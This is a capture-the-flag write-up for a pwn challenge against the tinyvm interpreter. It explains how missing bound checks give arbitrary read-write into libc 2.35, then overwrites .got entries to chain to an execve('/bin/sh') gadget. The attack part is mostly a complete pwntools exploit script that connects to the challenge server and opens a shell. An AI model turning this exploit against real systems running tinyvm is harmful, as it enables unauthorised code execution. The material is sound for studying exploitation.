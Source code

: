 # tinyvm

We are given only `nc 198.11.180.84 6666`. There, we are prompted for a file to pwn [tinyvm](https://github.com/jakogut/tinyvm). Tinyvm runs run programs that are written in an x86 asm like syntax.

Looking at the tinyvm source, we noticed three things:
1. Bound checks pretty much just don't exist.
2. The 64MiB vm memory is simply malloced. Meaning that, because of it's size, it will end up in a mmapped region directly before the libc.
3. We can only address stuff with either an integer literal or esp. Since we needed to dynamically compute addresses while exploring the remote, we ended up scripting that and using esp-based memory accesses everywhere.

Meaning that, despite ASLR, we have arbitrary read-write in the vm memory, libc and ld.

Since we still didn't know anything about the remote system, we first used the arb read to dump the remote libc. Which turned out to be `GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.1) stable release version 2.35.` 

So now we have arbitrary read-write in libc 2.35. An easy way to get shell is to overwrite .got table entries in libc and call `__libc_message` to execute one gadgets. Check [this](https://github.com/nobodyisnobody/write-ups/tree/main/RCTF.2022/pwn/bfc) for more details. Unfortunately, at first glance, none of the available one gadgets seemed to fit any of the calls we were able to reach. But we did find out a way to make it work.

```
# 0xebcf8 execve("/bin/sh", rsi, rdx)
# constraints:
#   address rbp-0x78 is writable
#   [rsi] == NULL || rsi == NULL
#   [rdx] == NULL || rdx == NULL

.text:0000000000077AE7                 mov     rdx, r14
.text:0000000000077AEA                 mov     rsi, rbp
.text:0000000000077AED                 mov     rdi, rbx
.text:0000000000077AF0                 call    j_mempcpy
```

We overwrite .got+0x40(j_mempcpy) with offset `0xebcf8` and `.got+0x98` with offset `0x77AE7` so that it first jumps to `0x77AE7` to clear out registers before jumping to one gadget. And it works!

After adapting offsets in the same machine as remotely, one gadget works smoothly on the remote machine.

```python
#coding:utf-8
from pwn import *
from time import sleep


#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

stack_to_libc_offset = 0x3e03ff0

def write_libc(offset, value):
    assert offset % 4 == 0
    instructions = []
    instructions.append(f"add esp, {stack_to_libc_offset + offset + 4 }")
    instructions.append(f"mov eax, {value}")
    instructions.append(f"push eax")
    instructions.append(f"sub esp, {stack_to_libc_offset + offset }")
    return instructions

def add_libc(offset, value):
    assert offset % 4 == 0
    instructions = []
    instructions.append(f"add esp, {stack_to_libc_offset + offset }")
    instructions.append(f"pop eax")
    #instructions.append(f"prn eax")
    instructions.append(f"add eax, {value}")
    #instructions.append(f"prn eax")
    instructions.append(f"push eax")
    instructions.append(f"sub esp, {stack_to_libc_offset + offset }")
    return instructions

def corrupt_memory_region():
    instructions = []
    instructions.append(f"add esp, {-0x200008}")
    instructions.append(f"pop eax")
    instructions.append(f"mov eax, {0xffffffff}")
    instructions.append(f"push eax")
    instructions.append(f"sub esp, {-0x200008 }")
    return instructions


got_plt_base = 0x00219000



def gen_find_got_plt_crashes_program():
    instructions = []
    instructions.append("prn esp")
    #instructions += corrupt_memory_region()
    #instructions += write_libc(0x26f004,0x41414141)

    for i in range(0, 0x1c8, 8):
        if(i in [0xb8]):
            continue
        instructions += write_libc(got_plt_base+i,i)

    instructions.append("prn esp")
    return '\n'.join(instructions)




x98_offset = 0x19d960
x40_offset = 0x1a0890


def gen_single_override_program(one_gadget,got_entry, original_got_offset):
    instructions = []
    instructions += corrupt_memory_region()
    instructions += add_libc(got_plt_base+got_entry,one_gadget-original_got_offset)
    #instructions.append("prn esp")
    return '\n'.join(instructions)

def gen_program(content_1, entry_1, offset_1, content_2, entry_2, offset_2):
    instructions = []
    instructions += corrupt_memory_region()
    instructions += add_libc(got_plt_base + entry_1, content_1 - offset_1)
    instructions += add_libc(got_plt_base + entry_2, content_2 - offset_2)
    #instructions.append("prn esp")
    return '\n'.join(instructions)


def find_crashes():
    with open('program.vm', 'w') as f:
        p = gen_find_got_plt_crashes_program()
        info(p)
        f.write(p)
    io = start()
    #print(hex(io.libc.address + got_plt_base+0x40))

    io.interactive()


def try_remote():
    # p = gen_program(0xebcf8, 0x40, x40_offset, 0x77AE7, 0x98, x98_offset)
    p = gen_program(0xdd688, 0x40, x40_offset, 0x63227, 0x98, x98_offset)
    # info(p)
    # print(p)
    r = connect("198.11.180.84", 6666)
    r.sendlineafter("4096) :", str(len(p)))
    r.send(p)

    r.interactive()

try_remote()

```

`rwctf{A_S1gn_In_CHllenge}`
